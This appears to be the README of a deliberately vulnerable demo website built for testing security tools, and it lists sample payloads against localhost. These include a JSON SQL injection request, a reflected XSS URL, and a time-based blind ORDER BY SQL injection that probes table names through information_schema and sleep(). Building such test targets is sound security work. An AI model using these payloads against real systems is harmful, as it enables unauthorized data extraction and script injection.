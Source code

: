 创建此仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

json穿参数
curl http://127.0.0.1 -X POST -H "application/json" -d '{"id":"1"}'

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

select * from user ORDER BY id,if((select (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=(SELECT DATABASE()) limit 1),1,1)='u')),sleep(1),0)

http://127.0.0.1/orderby.php?orderby=,if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)

